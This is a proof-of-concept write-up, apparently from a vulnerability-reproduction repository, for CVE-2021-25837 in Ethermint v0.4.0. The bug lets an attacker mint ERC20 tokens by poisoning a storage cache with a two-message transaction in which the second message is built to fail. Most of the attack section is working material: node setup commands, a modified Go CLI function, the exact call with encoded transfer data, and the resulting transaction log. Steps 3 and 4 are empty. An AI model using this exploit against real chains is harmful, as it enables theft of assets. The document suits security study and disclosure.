






# Ethermint(Evmos) Arbitrary Token Mint(P5)

Chain: Ethermint(Evmos) ([CVE](https://www.cve.org/CVERecord?id=CVE-2021-25837))
Impact: Asset Stolen

## Introduction

This vulnerability exploits an inconsistency between the originStorage cache (hereafter referred to as the Storage cache) and the deliverState in Ethermint.
By crafting a transaction that contains multiple messages, where one message succeeds and a subsequent message is guaranteed to fail, an attacker can poison the Storage cache without those changes being reverted in the deliverState.

Because ERC20 balances are stored directly in contract storage, and each account’s balance occupies a dedicated storage slot, this cache inconsistency can be abused to achieve arbitrary ERC20 token inflation. 

## PoC

### 0. Start an Ethermint Node

```
git clone https://github.com/cosmos/ethermint.git
cd ethermint
git checkout v0.4.0
bash init.sh

ethermintcli rest-server \
  --laddr "tcp://localhost:8545" \
  --unlock-key mykey \
  --chain-id ethermint-1 \
  --trace

```
Configure MetaMask
```
ethermintcli keys unsafe-export-eth-key mykey
```
Import the key into MetaMask, Verify the initial account balance




### 1. Deploy a Standard ERC20 Contract

Assume an ERC20 contract and three attacker-controlled accounts: A, B, and C.
| Account       | A | B | C |
| ------------- | - | - | - |
| Keeper Cache | 1 | 0 | 0 |
| Context Storage  | 1 | 0 | 0 |



### 2. The attacker constructs one transaction containing two messages:

- msg1: A transfers 1 ERC to B (valid ERC20 call)

- msg2: A Cosmos MsgSend that is guaranteed to fail (insufficient funds)

After execution:
| Account       | A | B | C |
| ------------- | - | - | - |
| Keeper Cache | 0 | 1 | 0 |
| Context Storage | 1 | 0 | 0 |

The following CLI command sends an ERC20 transfer followed by a guaranteed-to-fail Cosmos message:

```
func GetCmdCallContract(cdc *codec.Codec) *cobra.Command {
	return &cobra.Command{
		Use:   "call [contract] [input]",
		Short: "Call Contract",
		Args:  cobra.ExactArgs(2),
		RunE: func(cmd *cobra.Command, args []string) error {
			cliCtx := context.NewCLIContext().WithCodec(cdc)
			inBuf := bufio.NewReader(cmd.InOrStdin())
			txBldr := auth.NewTxBuilderFromCLI(inBuf).WithTxEncoder(utils.GetTxEncoder(cdc))
			from := cliCtx.GetFromAddress()
			var toAddr sdk.AccAddress
			toAddr = common.HexToAddress(args[0]).Bytes()

			accRet := authtypes.NewAccountRetriever(cliCtx)
			if err := accRet.EnsureExists(from); err != nil {
				return err
			}

			_, nonce, err := accRet.GetAccountNumberSequence(from)
			if err != nil {
				return err
			}

			data, err := hexutil.Decode(args[1])
			if err != nil {
				return err
			}

			msg := types.NewMsgEthermint(nonce, &toAddr, sdk.NewIntFromUint64(0), ethermint.DefaultRPCGasLimit, sdk.NewIntFromUint64(ethermint.DefaultGasPrice), data, from)
			err = msg.ValidateBasic()
			if err != nil {
				return err
			}
			errMSg := bank.NewMsgSend(from, from, sdk.NewCoins(sdk.NewCoin("none", sdk.NewInt(1)))) 
			return utils.GenerateOrBroadcastMsgs(cliCtx, txBldr, []sdk.Msg{msg, errMSg})
		},
	}
}

```

use the cli to send double msg tx.

```
ethermintcli tx evm call 0x829eb75adD23a77bae6c74A5f71D751feCd0c3e7 0xa9059cbb000000000000000000000000829d057a1070a1073fabf24d4f5fae343273a93e0000000000000000000000000000000000000000000000000de0b6b3a7640000 --from mykey

```

```
ethermintcli query tx 90EE90BD87114AA0E353765405D25C7FCD1D6C25F065A1F9449D39C4CFED2DDA
{
  "height": "4820",
  "txhash": "90EE90BD87114AA0E353765405D25C7FCD1D6C25F065A1F9449D39C4CFED2DDA",
  "codespace": "sdk",
  "code": 5,
  "raw_log": "insufficient funds: insufficient account funds; 97246321167999999980aphoton \u003c 1none: failed to execute message; message index: 1",
  "gas_wanted": "200000",
  "gas_used": "102140",
  "tx": {
    "type": "cosmos-sdk/StdTx",
    "value": {
      "msg": [
        {
          "type": "ethermint/MsgEthermint",
          "value": {
            "nonce": "62",
            "gasPrice": "20",
            "gas": "10000000",
            "to": "eth1s20twkkaywnhhtnvwjjlw8t4rlkdpsl8ml7fyp",
            "value": "0",
            "input": "qQWcuwAAAAAAAAAAAAAAAIKdBXoQcKEHP6vyTU9frjQyc6k+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADeC2s6dkAAA=",
            "from": "eth1lzytlmyj09yc34f4kwd258gz9mh0xymf7xwelt"
          }
        },
        {
          "type": "cosmos-sdk/MsgSend",
          "value": {
            "from_address": "eth1lzytlmyj09yc34f4kwd258gz9mh0xymf7xwelt",
            "to_address": "eth1lzytlmyj09yc34f4kwd258gz9mh0xymf7xwelt",
            "amount": [
              {
                "denom": "none",
                "amount": "1"
              }
            ]
          }
        }
      ],
      "fee": {
        "amount": [],
        "gas": "200000"
      },
      "signatures": [
        {
          "pub_key": {
            "type": "ethermint/PubKeyEthSecp256k1",
            "value": "A3Eo9z/jAKBJ33L2Czt9O0N/2ejM47EwEo1xgLEd2ARi"
          },
          "signature": "hqYzDa65iVTjAHkV9DiMTrGueU1VN3Bc4rLvRab5ttQrLvwT0hPChtj1RivVEhdU4cuTaOAJ2hF6go0pvABJyQA="
        }
      ],
      "memo": ""
    }
  },
  "timestamp": "2021-02-19T22:45:12Z"
}

```

### 3. Transfer one coin from B to C


### 4. Final Resutl




Docker could been used to PoC - [Docker](./DockerPoC)